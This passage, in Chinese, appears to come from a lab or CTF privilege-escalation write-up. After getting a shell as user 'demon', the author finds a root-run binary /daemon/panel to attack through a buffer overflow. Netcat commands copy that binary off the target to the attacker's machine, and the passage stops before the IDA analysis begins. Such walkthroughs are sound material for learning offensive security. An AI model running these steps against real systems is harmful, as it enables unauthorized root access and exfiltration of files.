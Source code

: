 [![](assets/1703831476-6c6711b7b1b600b50037ac7d62f01cae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224632-ba193172-a4c6-1.png)

> 拿到demon用户权限

### 提权信息收集

进程中发现了root权限运行的/daemon/panel。既然是root身份运行，如果存在溢出即可利用获得root的shell

```plain
ps aux | grep root
find / -name 'panel' 2>/dev/null
```

[![](assets/1703831476-2a0ae205532bd9e1aa6682e73bf49212.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224640-be73b3fa-a4c6-1.png)

nc传到本地分析

```plain
nc -lvp 8080 >panel
nc 192.168.80.129 8080 <panel
```

### ELF文件分析（IDA64）
